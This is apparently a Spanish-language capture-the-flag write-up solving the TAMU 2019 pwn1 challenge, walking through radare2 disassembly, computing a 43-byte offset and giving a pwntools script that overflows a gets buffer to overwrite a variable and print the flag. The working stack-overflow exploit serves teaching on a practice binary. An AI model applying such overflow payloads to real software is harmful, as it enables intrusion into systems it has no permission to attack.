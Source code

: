```yaml
---
title: TAMU 2019 pwn1 - BufferOverflow
author: c4rta
date: 2023-01-06
categories: [Explotacion binaria, TAMU]
tags: [bof stack based]
---
```

Resolucion del ejercicio pwn1 de TamuCTF. Donde sobrescribimos el valor de una variable

El binario lo pueden descargar con:

```wget https://github.com/guyinatuxedo/nightmare/raw/master/modules/04-bof_variable/tamu19_pwn1/pwn1```

## Analisis

El binario cuenta con las siguientes protecciones:

```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Full RELRO      No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   77 Symbols	  No	0		2		pwn1
```
No tienec Canary asi que podemos intentar un buffer overflow, sin embargo tiene NX, asi que no podemos ejecutar una shellcode.

Aqui intente ejecutar el binario pasandole lo que sea y luego tratando de ocasionar un buffer overflow:

![](/assets/img/commons/tamu-pwn1/binario1.png)

Pero de ninguna forma funciono, asi que vamos a ver que esta pasando, para el reversing usare radare2

Y miren, aqui tenemos la funcion que recibe nuestro input:

![](/assets/img/commons/tamu-pwn1/radare1.png)

Lo mas descatable son las instrucciones:

- lea eax, [ebx - 0x159f]: Que lo que esta haciendo es cargar la direccion de memoria que esta contenida en ```ebx-0x159f```, esto significa que se está leyendo la dirección de memoria contenida en la ubicación de memoria apuntada por ebx-0x159f y luego cargando esa dirección en el registro eax. y lo que tiene esa direccion de memoria es nuestro input

- push eax: Luego nuestro input lo mete al stack

- lea eax, [ s1]: Esto hace lo mismo que ```lea eax, [ebx - 0x159f]``` pero ahora hay que tomar en cuenta que lo esta haciendo con lo que tiene la variable ```s1```, esta se esta declarando como ```var char *s1 @ ebp-0x3b``` y esta 56 bytes por debajo del ```EBP``` 

Despues tenemos una comparacion que es:

![](/assets/img/commons/tamu-pwn1/radare2.png)

Lo que hace primero con ```add``` es sumarle 16 bytes al ```ESP```, esto con el fin para ajustar la posicion del ```ESP``` en el stack. Despues con ```test```se hace una operacion AND bit a bit entre lo que le metimos como input y lo que tiene ```s1```, y esto sirve ya que despues tenemos la intruccion ```je``` que significa ```salta si es igual```, asi que si el input y ```si``` son iguales, la flag ```ZF``` se establece en 1 y salta a la direccion ```0x5655582f``` y si no, la ```ZF``` se establace en 0 y en este caso lo que pasa es que el programa se detiene como se puede ver aqui en esta imaguen que pinte jiji:

![](/assets/img/commons/tamu-pwn1/radare3.gif)

Si son iguales el programa sigue con la ejecucion desde la funcion ```0x5655582f``` (color amarillo), y si no simplemente hace un exit y se detiene (color rojo).

Despues en el programa tenemos otro input, pero es exactamente lo mismo que el que acabe de explicar, solo que la pregunta seria... ¿Cual es el valor de ```s1``` con el que nuestro input se esta comparando?, y lo que se me ocurrio a mi fue: si la variable ```s1``` se esta declarando como una variable global, entonces en la seccion .rodata de el binario debe de estar, esto es por que en .rodata se encuentran las variables inicializadas globalmente pero de solo lectura, entonces mostre la seccion .rodata con el comando ```iz```: 

![](/assets/img/commons/tamu-pwn1/radare4.png)

Y wow, ahora sabemos que nuestros inputs se estan comparando con ```Sir Lancelot of Camelot``` y ```To seek the Holy Grail```, y wow, esto es completamente inutil ya que no nos sirve para nada jaja, lo que en realidad nos sirve es lo que sigue y es donde dice:

```What... is my secret?```

Y aqui es otro input y su codigo en emsamblador es:

![](/assets/img/commons/tamu-pwn1/radare5.png)

Esto es un mas facil de analizar, simplemente compara lo que se almacena en```var_10h``` con el valor ```0xdea110c8``` y si son iguales manda a llama a la funcion ```sym.print_flag```, que basicamente es la que imprime la flag. 

Y para explotarlo, tenemos que hacer es sobreescribir el contenido de ```var_10``` usando ```gets```, pero no es tan obvio como parece, tenemos que tomar en cuenta en donde se ubican dos variables: ```var_10``` y ```s```, esto con el fin de saber el desplazamiento entre esas dos y saber cuantos bytes hay que meter.

Para saber donde esta ```var_10``` vemos la declaracion de la variable:

```var uint32_t var_10h @ ebp-0x10```

Esta esta 0x10 por debajo del EBP, es decir, 16 bytes.

Y para ```s1```:

```var char *s1 @ ebp-0x3b```

Esta a 0x3b, es decir, 59 bytes

Entonces tenemos un desplazamiento de 59 - 16 = 43, asi que debemos de escribir 43 bytes antes de sobreescribir la variable

## Exploit

```py
from pwn import *

target = process('./pwn1')

payload = b"A"*43 #Esto es el padding
payload += p32(0xdea110c8) #el valor por la cual la vamos a sobreescribir

target.sendline("Sir Lancelot of Camelot")
target.sendline("To seek the Holy Grail.")

target.sendline(payload)
target.interactive()
```

Y listo

```
python3 exploit.py

[+] Starting local process './pwn1': pid 26329
/home/c4rta/Downloads/exploit.py:9: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  target.sendline("Sir Lancelot of Camelot")
/home/c4rta/Downloads/exploit.py:10: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  target.sendline("To seek the Holy Grail.")
[*] Switching to interactive mode
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
What... is your quest?
What... is my secret?
Right. Off you go.
flag{g0ttem_b0yz} --> la flag
```

Eso ha sido todo, gracias por leer ❤

![](/assets/img/commons/tamu-pwn1/waifu.webp)
